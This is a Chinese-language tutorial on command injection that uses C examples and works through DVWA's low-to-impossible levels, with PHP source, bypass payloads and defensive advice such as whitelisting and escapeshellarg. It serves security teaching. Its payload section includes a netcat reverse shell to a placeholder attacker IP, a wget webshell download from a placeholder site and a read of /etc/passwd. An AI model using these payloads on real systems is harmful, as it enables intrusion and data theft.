



# Command Injection

## 一、命令注入简介

命令注入是一种攻击方式，攻击者**旨在通过存在漏洞的应用程序，在宿主操作系统上执行任意指令**。当应用程序将未经过滤的用户可控数据（表单、Cookie、HTTP 请求头 等）传入系统 Shell 时，就会产生命令注入漏洞。在该攻击中，攻击者构造的操作系统命令，通常会以漏洞应用程序的权限被执行。命令注入攻击的根源，主要在于输入校验不充分。
该攻击与代码注入存在区别：代码注入允许攻击者植入自定义代码，并由应用程序解析执行；而命令注入无需植入代码，仅利用应用程序原本调用系统命令的功能，篡改并拓展其执行逻辑。

### 例子

#### 实例1
以下代码是对 UNIX 命令 cat 的封装，功能是将文件内容打印到标准输出。该程序存在命令注入漏洞。
```c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char **argv) {
    char cat[] = "cat ";
    char *command;
    size_t commandLength;

    commandLength = strlen(cat) + strlen(argv[1]) + 1;
    command = (char *) malloc(commandLength);
    strncpy(command, cat, commandLength);
    strncat(command, argv[1], (commandLength - strlen(cat)) );

    system(command);
    return (0);
}
```
正常使用时，输出结果仅为请求文件的内容：
```bash
$ ./catWrapper Story.txt
When last we left our heroes...
```
然而，若在参数末尾添加分号并拼接另一个命令，程序会无报错地执行拼接后的命令：
```bash
$ ./catWrapper "Story.txt; ls"
When last we left our heroes...
Story.txt    doubFree.c    nullpointer.c
unstosig.c   www*          a.out*
format.c     strlen.c      useFree*
catWrapper*  misnull.c     strlen.c      useFree.c
commandInjection.c  nodefault.c  trunc.c       writeWhatWhere.c
```
若 catWrapper 被设置为拥有高于标准用户的权限，攻击者便能以该更高权限执行任意命令。

#### 实例2

下面这段代码来自一个基于 Web 的 CGI 工具，该工具允许用户修改密码。在 NIS（网络信息服务）环境下，密码更新流程需要在/var/yp目录下执行make命令。注意：由于该程序需要更新密码记录，因此被安装为setuid root权限（即执行时拥有 root 权限）。

程序调用make的方式如下：
```c  
system("cd /var/yp && make &> /dev/null");
```
与上一个示例不同，本例中的命令是硬编码的，攻击者无法直接控制传递给 system () 的参数。但由于程序未指定 make 命令的绝对路径，且在调用命令前未清理任何环境变量，攻击者可以修改自己的 $PATH 环境变量，使其指向一个名为 make 的恶意二进制文件，然后从 shell 提示符执行该 CGI 脚本。又因为该程序是 setuid root 权限，攻击者伪造的 make 程序将以 root 权限运行。
环境变量在程序执行系统命令时扮演着重要角色。system () 和 exec () 这类函数会继承调用者的环境变量，因此攻击者有机会影响这些调用的行为。
很多网站会告诉你，Java 的 Runtime.exec 和 C 语言的 system 函数完全相同。这是错误的。两者都允许调用新程序 / 进程，但区别在于：
C 语言的 system 函数会将参数传递给 shell（/bin/sh）进行解析；
而 Runtime.exec 会尝试将字符串拆分为单词数组，然后执行数组中的第一个单词，并将其余单词作为参数传递。
Runtime.exec 在任何阶段都不会尝试调用 shell。核心差异在于：shell 提供的很多可被恶意利用的功能（如使用 &、&&、|、|| 等拼接命令，或重定向输入输出），在 Runtime.exec 中只会被当作传递给第一个命令的参数，这大概率会导致语法错误，或被当作无效参数丢弃。

---

## 二、DVWA中的Command Injection

### DVWA中的Command Injection low 级别

**源码**：
```php
<?php
//①处，检查POST表单提交
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    //②处，直接获取post的ip参数（可能带有其他命令
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    //③处，根据当前系统类型选择执行分支，分别执行ping命令
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    //④处，直接输出命令执行结果
    echo "<pre>{$cmd}</pre>";
}

?>
```

*prompt：This allows for direct input into one of many PHP functions that will execute commands on the OS. It is possible to escape out of the designed command and executed unintentional actions.*

**原理说明**：
low级别直接获取POST表单中的ip参数，并直接执行ping命令，没有对可能的恶意输入进行过滤，攻击者可以通过在ip参数中通过;、&&、||等符号执行多条命令，造成命令注入漏洞

- ①处：检查POST表单提交，如果提交，则执行
- ②处：直接获取post的ip参数（可能带有其他命令）
- ③处：根据当前系统类型选择执行分支，分别执行ping命令，拼接命令之后可直接被操作系统执行
- ④处：直接输出命令执行结果

**payload展示**：
*一下的payload都是针对于linux系统*

| 分隔符 | Payload 示例 | 效果 |
|--------|--------------|------|
| `;` | `127.0.0.1; whoami` | 顺序执行 `ping` 和 `whoami` |
| `&&` | `127.0.0.1 && whoami` | `ping` 成功后再执行 `whoami` |
| `||` | `127.0.0.1 || whoami` | `ping` 失败时才执行 `whoami` |
| `\|` | `127.0.0.1 \| whoami` | 管道，将 `ping` 输出作为 `whoami` 输入（通常无意义，但可用于执行） |
| `&` | `127.0.0.1 & whoami` | 后台执行 `ping`，同时执行 `whoami` |
| 换行符 `\n`（URL 编码 `%0a`） | `127.0.0.1%0awhoami` | 在部分环境下可换行分隔命令 |

更危险的命令注入：
反弹shell：`127.0.0.1; nc -e /bin/sh 攻击者IP 4444`

下载Webshell:`127.0.0.1; wget http://恶意网站/shell.php -O /var/www/html/shell.php`

读取敏感文件:`127.0.0.1; cat /etc/passwd`

提权信息收集:`127.0.0.1; id; uname -a`

读者可以尝试上面的payload，一下分别展示`127.0.0.1; whoami`、`127.0.0.1; cat /etc/passwd`(/etc/passwd 是 Linux/Unix 系统中核心的用户账户信息文件、格式为用户名:密码占位符:UID:GID:用户注释信息:主目录:登录Shell)：


### DVWA中的Command Injection medium 级别

**源码**：
```php
<?php
//①处，同low级别，检查submit的输入
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    //②处，获取输入ip参数，然后赋值给$target
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    //③处，设置黑名单，将&&、;等符号过滤掉
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the characters in the array (blacklist).
    //④处，将黑名单中的字符替换为空字符
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    //⑤处，同low级别，根据当前系统类型选择执行分支，分别执行ping命令
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    //⑥处，同low级别，直接输出命令执行结果
    echo "<pre>{$cmd}</pre>";
}

?>

``` 
*prompt：The developer has read up on some of the issues with command injection, and placed in various pattern patching to filter the input. However, this isn't enough.Various other system syntaxes can be used to break out of the desired command.*

**原理说明**：
medium级别在low级别的基础上，增加了对&&、;等黑名单字符的过滤，攻击者可以用其他字符如|、&等来执行多条命令，从而绕过过滤，造成命令注入漏洞(未用白名单，黑名单过滤也不完全)

- ①处：同low级别，检查submit的输入
- ②处：获取输入ip参数，然后赋值给$target
- ③处：设置黑名单，将&&、;等符号过滤掉
- **④处：将黑名单中的字符替换为空字符**
- ⑤处：同low级别，根据当前系统类型选择执行分支，分别执行ping命令
- ⑥处：同low级别，直接输出命令执行结果

**payload展示**：
*选取low级别中的无&&和;的payload皆可尝试*
比如：

1. `127.0.0.1&whoami`


2. `127.0.0.1 | cat /etc/passwd`


### DVWA中的Command Injection high 级别

**源码**：
```php
<?php
//①处，同medium级别，检查submit的输入
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    //②处，同medium级别，使用trim()函数获取输入ip参数，然后赋值给$target，（trim()函数只能去除首位空格，中间的空格和换行符不会被去除）
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    //③处，同medium级别，设置黑名单，将&&、;、|、&、-、$、(、)、`等符号过滤掉，但过滤字符更多
    $substitutions = array(
        '||' => '',
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
    );

    // Remove any of the characters in the array (blacklist).
    //④处，同medium级别，将黑名单中的字符替换为空字符
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    //⑤处，同medium级别，根据当前系统类型选择执行分支，分别执行ping命令
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    //⑥处，同medium级别，直接输出命令执行结果
    echo "<pre>{$cmd}</pre>";
}

?>

```     

**原理说明**：
high级别在medium级别基础之上，增加了对||、| 、-、$、(、)、`等黑名单字符的过滤，
仔细观察过滤条件，可以发现黑名单中的管道是过滤的"| "(这里展示的是对trim()函数的误解，以为能够去除所有空格，并且过滤|还多了一个空格),所以我们也可以直接使用不添加空格的|，当然还可以考虑使用换行符\n(%0A)、\r(%0D)、\t(%09)等来分隔命令，造成命令注入漏洞(未用白名单，黑名单过滤也不完全)

- ①处：同medium级别，检查submit的输入           
- ②处：同medium级别，获取输入ip参数，然后赋值给$target
- ③处：同medium级别，设置黑名单，将&&、;、|、&、-、$、(、)、`等符号过滤掉，但过滤字符更多
- ④处：同medium级别，将黑名单中的字符替换为空字符
- ⑤处：同medium级别，根据当前系统类型选择执行分支，分别执行ping命令
- ⑥处：同medium级别，直接输出命令执行结果

**payload展示**：
*选取low级别中的直接使用管道符的payload进行尝试*
比如：

1. `127.0.0.1|whoami`


2. `127.0.0.1|cat /etc/passwd`


### DVWA中的Command Injection Impossible 级别

**源码**：
```php
<?php
//①处，同high级别，获取是否有Submit表单提交
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Check Anti-CSRF token
    //②处，增加对CSRF的检查，如果token不正确，则跳转到index.php页面
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    //③处，获取输入ip参数，然后赋值给$target
    $target = $_REQUEST[ 'ip' ];
    //④处，增加了stripslashes()函数，去除输入中的\字符
    $target = stripslashes( $target );

    // Split the IP into 4 octects
    //⑤处，将输入的ip参数根据.分割成4个字符串，然后分别赋值给$octet[0]、$octet[1]、$octet[2]、$octet[3]
    $octet = explode( ".", $target );

    // Check IF each octet is an integer
    //⑥处，检查$octet中每一个是否都是数字，且数组长度是否为4，否则不予处理
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        //⑦处，满足if条件，重新拼接ip参数，赋值给$target
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

        // Determine OS and execute the ping command.
        //⑧处，同high级别，根据当前系统类型选择执行分支，分别执行ping命令
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
            // Windows
            $cmd = shell_exec( 'ping  ' . $target );
        }
        else {
            // *nix
            $cmd = shell_exec( 'ping  -c 4 ' . $target );
        }

        // Feedback for the end user
        //⑨处，同high级别，直接输出命令执行结果
        echo "<pre>{$cmd}</pre>";
    }
    else {
        // Ops. Let the user name theres a mistake
        //⑩处，不满足if条件，输出错误信息
        echo '<pre>ERROR: You have entered an invalid IP.</pre>';
    }
}

// Generate Anti-CSRF token
//最后重新生成token，以便下次提交
generateSessionToken();

?>
```
*prompt:In the impossible level, the challenge has been re-written, only to allow a very stricted input. If this doesn't match and doesn't produce a certain result, it will not be allowed to execute. Rather than "black listing" filtering (allowing any input and removing unwanted), this uses "white listing" (only allow certain values).*

**原理说明**：
impossible级别在high级别的基础之上，添加的对CSRF的防护，以及通过对输如ip参数的分割、检查、拼接等操作，来过滤掉一些不合法的输入(**本质上是白名单过滤**，能够起到防护命令注入)，实现了输入与'代码'的隔离

----

## 三、总结

### DVWA中的Command Injection 级别总结
| 等级       | 核心防御机制                                                                 | 绕过方法                                                                 | 关键启示                                                                 |
| :--------- | :-------------------------------------------------------------------------- | :----------------------------------------------------------------------- | :----------------------------------------------------------------------- |
| **Low**    | 无任何过滤，直接拼接用户输入到系统命令中。                                   | 使用命令分隔符（如 `;`、`&&`、`|`、`&`、`\n` 等）注入额外命令，例如 `127.0.0.1; whoami`。 | 直接拼接用户输入是最根本的漏洞，任何不经过滤的数据都不应传入系统命令执行函数。 |
| **Medium** | 黑名单过滤，删除 `&&` 和 `;`。                                              | 利用未被过滤的分隔符（如 `|`、`&`）或命令替换符，例如 `127.0.0.1|whoami`。 | 黑名单无法穷举所有危险字符，攻击者总能找到新的绕过方式，不能作为可靠防御。   |
| **High**   | 更复杂的黑名单，删除 `||`、`&`、`;`、`|`、`-`、`$`、`(`、`)`、`` ` `` 等。 | 利用过滤规则中的疏漏（如未匹配单独的 `)`，或使用换行符 `\n` 等，例如 `127.0.0.1|whoami` 或 `127.0.0.1%0awhoami`。 | 黑名单即使不断扩充，仍可能因细节错误（如空格匹配）或遗漏字符（如 `` ` ``）而被绕过。 |
| **Impossible** | 白名单输入验证：拆分 IP 为四部分，检查每部分是否为整数，且数组长度为 4；CSRF 令牌防止跨站请求。 | 无法绕过。任何包含非数字、非点或不符合 IP 格式的输入都会被拒绝，无法进入命令执行流程。 | 白名单验证是防御命令注入的根本方法，只允许绝对安全的输入，而不是试图过滤危险字符。 |

### 攻击者的常用思路
1. 利用命令分隔符：在目标参数后插入 `;`、`&&`、`||`、`|`、`&`、`\n` 等，执行额外命令。
2. 利用命令替换：使用 `$()` 或反引号 `` ` `` 执行子命令。
3. 利用环境变量：如 `$PATH`、`$IFS` 等，结合未过滤的字符绕过限制。
4. 利用操作系统特性：如 Windows 下的 `%` 环境变量、`^` 转义符等。
5. 利用黑名单的细节疏漏：如过滤规则不完整（只删 `|` 未删 `||`）、误用函数（如 `trim()` 仅去除首尾空格）等。

### 最终防御：白名单 + 参数化 + 纵深防御
最根本的防御是白名单输入验证。对于命令注入场景，应严格限制输入格式（如 IP 地址只能包含数字和点），拒绝任何其他字符。同时，如果必须调用系统命令，应：
- 使用 `escapeshellarg()` 对参数进行转义（将参数视为单个字符串）。
- 尽可能避免调用 `shell_exec()` 等系统命令执行函数，改用编程语言内置的网络功能（如 PHP 的 `filter_var` 验证 IP 后，用 `fsockopen` 测试网络连通性）。

此外，可结合 **CSRF Token** 防止攻击者诱导用户提交恶意请求，形成纵深防御。

### 核心原则
永远不要信任用户的输入，在将其用于任何敏感操作前，必须通过白名单严格校验其格式和内容，确保它只包含预期中的安全数据。